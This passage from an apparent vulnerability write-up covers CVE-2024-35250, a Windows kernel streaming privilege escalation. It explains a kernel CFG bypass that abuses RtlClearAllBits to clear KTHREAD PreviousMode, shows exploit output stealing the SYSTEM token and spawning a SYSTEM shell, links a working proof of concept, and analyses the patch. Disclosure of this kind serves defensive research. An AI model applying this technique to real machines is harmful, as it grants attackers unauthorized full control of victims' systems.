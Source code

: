 However, it does not calls the pointer directly, instead it goes through `guard_dispatch_icall_fptr` which is a part of Kernel Control-Flow Guard (kCFG). This will block if there is a call to user-space address from kernel-space. The easiest option is to call a nt function, this is where [RtlClearAllBits](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlclearallbits) comes into play. This routine sets all bits in a given bitmap variable to zero. We can use this to zero out the current process's thread’s KTHREAD→PreviousMode, which helps bypass certain security checks and allows making other calls directly.

```c++
NTSYSAPI VOID RtlClearAllBits(
  [in] PRTL_BITMAP BitMapHeader
);
```

## Exploit

Tested on: Windows 11 23H2  
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-35250

```
PS C:\Users\h4x\Desktop> whoami
desktop-3rgmcon\h4x
PS C:\Users\h4x\Desktop> .\CVE-2024-35250.exe
[+] Successfully opened DRM descrambler device!
[+] NT base address fffff8066ba00000
[+] Found EPROCESS of the current process FFFFBA81E8D130C0
[+] Found KTHREAD of the current thread FFFFBA81E57EE080
[+] Found EPROCESS of the system.exe FFFFBA81E0AB9040
[+] pFakeBitmapAddr = 0x0000000010000000
[+] Calling Kernel Streaming....
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22631.3593]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system

```

## Patch Analysis

The patched version adds checks to ensure the `KSPROPERTY→Set` is not set to `KSPROPSETID_DrmAudioStream`.

```c++
STATUS __fastcall KspPropertyHandler(
        PIRP Irp,
        unsigned int a2,
        __int64 a3,
        __int64 (__fastcall *a4)(_QWORD, _QWORD, _QWORD),
        unsigned int a5,
        __int64 a6,
        unsigned int a7)
{
  __int64 v7; // rbx
  struct _IO_STACK_LOCATION *CurrentStackLocation; // r15
  unsigned int Options; // r10d

[::]

  if ( v23 == 4096 )
            {
              LOBYTE(v20) = (unsigned int)Feature_2849679676__private_IsEnabledDeviceUsage() != 0;
```